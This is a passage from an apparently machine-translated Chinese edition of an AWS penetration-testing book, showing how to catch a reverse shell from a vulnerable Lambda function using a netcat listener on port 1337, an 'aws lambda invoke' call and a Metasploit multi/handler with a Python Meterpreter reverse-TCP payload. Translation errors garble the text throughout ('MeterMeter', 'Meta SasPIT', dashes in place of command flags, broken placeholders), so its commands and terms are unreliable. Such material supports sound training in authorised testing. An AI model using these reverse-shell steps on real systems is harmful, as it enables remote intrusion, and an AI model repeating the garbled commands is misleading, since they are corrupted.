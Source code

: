 $nc-1337 利弗&

现在，您的侦听器已在后台设置好，可以开始了。在执行连接之前，我们需要配置 AWS 环境。在您的终端中键入**aws 配置**，并确保您使用我们在前面章节中使用的 ID 和密钥。设置为环境后，运行以下命令以启动 shell：

$aws lambda invoke——函数名<<lambda arn="">>——调用类型 RequestResponse outfile.txt——区域<<aws region="">></aws></lambda>

重要提示

您可能需要在 Kali 实例上安装 AWS CLI。要安装 AWS CLI，请运行以下命令：**$apt get install awscli-y**。

正如你所看到的，在 Lambda 中获得一个外壳可能很有趣，但对毫无戒心的企业来说也可能是危险的。解决这一问题的一个很好的方法是在网络中部署监控解决方案，如网络预防和检测系统，这些设备具有检测出网络的错误流量的出口规则，以及查看进入的数据包的入口规则。关于 AWS，**CloudTrail**是一个很好的资源，可以在尝试检测 AWS 环境的流量时使用。

在本书中，我们已经讨论了很多关于 Metasploit 的内容，现在让我们看看如何将 Metasploit 与 Lambda 结合使用。我们将研究如何利用 Metasploit 中的处理程序来捕获会话。

重要提示

会话是在 Metasploit 中已挂接的连接。

## 与 Metasploit 和 Lambda 玩得开心

现在，我们了解如何用 Python 和 AuthT1，lambda 创建 shell 脚本，让我们来看看如何使用 Meta SasPIT 来获得类似的结果！在这次演习中，我们可以使用与以前相同的有效载荷；但是，如果重新启动实例或使用不同的 EC2，则可能需要更改实例 DNS 名称。

在我们开始之前，让我们讨论一下我们将要做什么；记住，最好在执行之前制定一个计划，即使这个计划很小！例如，我们需要使用内置在 Metasploit 中的**处理程序**。处理程序只是简单地混合到有效负载中来处理和监视连接，就像我们使用**netcat**建立连接一样。当我们使用 Lambda 函数设置反向 shell 时，我们了解了**netcat**。

由于我们之前在[*第 3 章*](03.html#_idTextAnchor098)*中使用过 Metasploit，探索 Pentesting 和 AWS*，因此无需讨论 Metasploit 或如何启动它。然而，我们需要确保使用正确的有效载荷。以下步骤将展示如何使用 Python 负载设置处理程序，该负载将捕获来自易受攻击的 Lambda 函数的连接。

启动 Metasploit 并输入以下命令以开始设置处理程序：

$use 漏洞利用/多重/处理程序

$set-payload-python/meterpeter/reverse\u-tcp

$set lhost<<ec2 instance="" dns="">></ec2>

$set lport 1337

$run

一旦开始运行处理程序，处理程序将进入**监听**模式，并开始等待传入连接。这与**netcat**的工作原理类似，只是我们在解释 shell 时使用了 MeterMeter，而不是与 shell 和**netcat**连接时使用的默认 Bash shell。MeterMeter 外壳比**netcat**连接功能强大得多，因为它们提供了大量的模块，您可以在 MeterMeter 外壳中加载这些模块。我们将在[*第 9 章*](09.html#_idTextAnchor381)**中了解更多关于它的信息，包括与 Metasploit 的现实生活 Pentesting 等等！*。*

现在，我们的侦听器正在运行，请返回易受攻击的 Lambda 函数并对其进行测试，然后尝试连接到 MeterMeter 侦听器。如果一切顺利，你将有一个舞台，然后是一个会议。您的会话是您与目标的交互式 shell：

![Figure 7.11 – Obtaining a reverse shell via Meterpreter ](img/Figure_7.11_B15630.jpg)

图 7.11–通过流量计获得反向外壳
